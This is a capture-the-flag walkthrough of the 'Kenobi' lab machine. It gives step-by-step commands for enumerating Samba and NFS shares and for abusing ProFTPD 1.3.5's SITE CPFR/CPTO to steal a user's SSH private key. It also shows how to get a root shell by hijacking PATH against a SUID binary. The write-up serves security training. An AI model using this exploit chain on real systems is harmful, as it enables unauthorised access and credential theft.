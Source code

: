 # Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?  
	
	![task1-nmap](./images/task1-nmap.png)

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?  
	
	`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.65.169`  

	![task2-samba](./images/task2-samba.png)

* Once you're connected, list the files on the share. What is the file can you see?  
	
	`smbclient //10.10.65.169/anonymous`  

	![task2-smbclient](./images/task2-smbclient.png)

	Get the file [here.](./files/log.txt)

	![task2-smbget](./images/task2-smbget.png)

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?  
	
	`sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.65.169`  

	![task2-nfs](./images/task2-nfs.png)

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	`nc 10.10.65.169 21`  

	![task3-version](./images/task3-version.png)

* How many exploits are there for the ProFTPd running?
	
	`searchsploit ProFtpd 1.3.5`  

	![task3-sploit](./images/task3-sploit.png)


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.  
	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	![task3-copy](./images/task3-copy.png)

* What is Kenobi's user flag (/home/kenobi/user.txt)?  
	* Lets mount the /var/tmp directory to our machine  
		```
		mkdir /tmp/kenobiNFS
		mount 10.10.231.1:/var /tmp/kenobiNFS
		ls -la /tmp/kenobiNFS
		```
		![task3-kenobiNFS](./images/task3-kenobiNFS.png)

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
		```
		cp /tmp/kenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@10.10.231.1
		```
		Get the file [here.](./files/id_rsa)

		![task3-id_rsa](./images/task3-id_rsa.png)

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		![task3-usertext](./images/task3-usertext.png)

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	`find / -type f -perm -4000 -ls 2>/dev/null`

	![task4-SUID](./images/task4-SUID.png)

* Run the binary, how many options appear?
	
	`/usr/bin/menu`

	![task4-binary](./images/task4-binary.png)

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	`strings /usr/bin/menu`

	![task4-strings](./images/task4-strings.png)

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	![task4-privilege](./images/task4-privilege.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	![task4-rootTXT](./images/task4-rootTXT.png)
